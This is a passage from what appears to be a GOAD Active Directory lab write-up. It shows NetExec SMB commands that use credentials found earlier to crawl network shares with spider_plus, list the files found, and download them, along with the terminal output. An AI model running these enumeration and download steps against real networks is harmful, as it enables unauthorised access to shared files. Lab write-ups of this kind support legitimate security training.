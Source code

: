 ### 02 - Authenticated Enumeration

#### Arya Stark

Using credentials discovered from null session enumeration that revealed sensitive information disclosure where credentials were left in the open.

```bash
#obtained by 
nxc smb 192.168.56.0/24 -u 'samwell.tarly' -p 'Heartsbane' -M spider_plus

#that command  produced the following
┌──(qdada㉿Embizweni)-[/tmp/nxc_spider_plus]
└─$ ls -al
total 40
drwxr-xr-x  2 qdada qdada  4096 May  8 14:27 .
drwxrwxrwt 16 root  root  12288 May  8 14:26 ..
-rw-r--r--  1 qdada qdada  3345 May  8 14:27 192.168.56.11.json
-rw-r--r--  1 qdada qdada   250 May  8 14:27 192.168.56.22.json
-rw-r--r--  1 qdada qdada    17 May  8 14:27 192.168.56.23.json
-rw-r--r--  1 qdada qdada  9569 May  8 14:27 initial_spider_plus.txt
```

typing **`cat 192.168.56.22.json`** produced

```ruby
┌──(qdada㉿Embizweni)-[/tmp/nxc_spider_plus]
└─$ cat 192.168.56.22.json |jq
{
  "all": {
    "arya.txt": {
      "atime_epoch": "2024-05-04 10:06:27",
      "ctime_epoch": "2024-05-04 10:06:27",
      "mtime_epoch": "2024-05-04 10:06:39",
      "size": "413 B"
    }
  },
  "public": {}
}
```

That suggests the `all` share has the file **`arya.txt`**

Downloading shared files is achieved through

```ruby
nxc smb 192.168.56.0/24 -u 'samwell.tarly' -p 'Heartsbane' -M spider_plus -o DOWNLOAD_FLAG=True
```

<div align="center" ><img width='100%' src='https://raw.githubusercontent.com/quincyntuli/Goad-Write-Up/main/img/06-netexec-download.png'><br><ins>Downloading results of spider command</ins></div>
